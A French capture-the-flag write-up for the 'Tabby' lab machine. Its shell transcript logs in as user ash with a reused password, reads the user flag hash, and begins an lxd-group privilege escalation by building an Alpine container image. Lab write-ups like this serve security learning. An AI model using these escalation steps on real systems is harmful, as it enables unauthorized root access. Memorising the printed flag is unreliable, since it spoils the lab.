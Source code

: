Sur le serveur tomcat

~~~ 
tomcat@tabby:/home$ ls
ls
ash
tomcat@tabby:/home$ su ash
su ash
Password: admin@it

ash@tabby:/home$ ls
ls
ash
ash@tabby:/home$ cd ash	
cd ash/
ash@tabby:~$ ls
ls
user.txt
ash@tabby:~$ cat user.txt
cat user.txt
14172b4536985f96e26f6e60b697c393
~~~ 

## 2. Root:

~~~
ash@tabby:~$ sudo -l
sudo -l
sudo: unable to open /run/sudo/ts/ash: Read-only file system
[sudo] password for ash: admin@it

Sorry, user ash may not run sudo on tabby.
ash@tabby:~$ id
id
uid=1000(ash) gid=1000(ash) groups=1000(ash),4(adm),24(cdrom),30(dip),46(plugdev),116(lxd)
ash@tabby:~$ 
~~~

Membre du groupe lxd. lxd est un logiciel de gestion des conteneurs Linux sur Ubnuntu: https://doc.ubuntu-fr.org/lxd

- lxd group privilege escalation: [https://book.hacktricks.xyz/linux-unix/privilege-escalation/interesting-groups-linux-pe/lxd-privilege-escalation](https://book.hacktricks.xyz/linux-unix/privilege-escalation/interesting-groups-linux-pe/lxd-privilege-escalation
)
- [https://www.hackingarticles.in/lxd-privilege-escalation/](https://www.hackingarticles.in/lxd-privilege-escalation/)

~~~
root@Host-001:~/Bureau/htb/Tabby# git clone https://github.com/saghul/lxd-alpine-builder.git
Clonage dans 'lxd-alpine-builder'...
remote: Enumerating objects: 27, done.
remote: Total 27 (delta 0), reused 0 (delta 0), pack-reused 27
Réception d'objets: 100% (27/27), 16.00 Kio | 2.67 Mio/s, fait.
Résolution des deltas: 100% (6/6), fait.
root@Host-001:~/Bureau/htb/Tabby# cd lxd-alpine-builder/
root@Host-001:~/Bureau/htb/Tabby/lxd-alpine-builder# ls
build-alpine  LICENSE  README.md
root@Host-001:~/Bureau/htb/Tabby/lxd-alpine-builder# ./build-alpine 
Determining the latest release... v3.12
Using static apk from http://dl-cdn.alpinelinux.org/alpine//v3.12/main/x86_64
Downloading alpine-mirrors-3.5.10-r0.apk
(...)
(19/19) Installing alpine-base (3.12.0-r0)
Executing busybox-1.31.1-r19.trigger
OK: 8 MiB in 19 packages
~~~